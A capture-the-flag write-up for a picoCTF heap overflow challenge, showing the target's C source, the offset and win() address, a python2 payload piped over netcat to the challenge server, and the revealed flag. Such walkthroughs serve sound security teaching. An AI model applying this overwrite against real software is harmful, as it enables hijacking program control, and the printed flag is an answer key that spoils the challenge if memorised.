 If we view the source code, we notice that a `win()` function exists. A `check_win()` function is also present to validate that the win condition has been fulfilled.

```c
void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}

void check_win() { 
    printf("%x\n", *(int*)x);

    ((void (*)())*(int*)x)(); 
}
```

Interestingly, the segmentation fault we received just now was due to the improper pointer access in the `check_win()` function call.

Specifically, the program attempted to treat the value stored in variable `x` as an address. In essence, for `check_win()` to work, the value in `x` should be a function address, and this function is called through the usage of pointers.

As a `win()` function exists, we'll need to load the address of `win()` into the variable `x`. Similar to the previous challenge, the allocated heap space can be overwritten.

Thus, we can craft our payload. Firstly, we will need to determine the address of `win()`. Using `readelf`, we can see that the address of `win()` is `0x4011a0`.

Now, we simply need to flood the first heap allocated space with 32 junk bytes. Then, insert the address of `win()` afterwards, such that the address overwrites the value stored in `x`.

We can do this using Python 2 in the command line. Note that our payload will consist of a few additional bytes as we need to navigate around the provided menu:

```text
1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit
```

```bash
$ python2 -c "print b'2\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa0\x11\x40\n1\n3\n4'" | nc mimas.picoctf.net 57625

I have a function, I sometimes like to call it, maybe you should change it
...
Enter your choice: picoCTF{and_down_the_road_we_go_ba77314d}
```

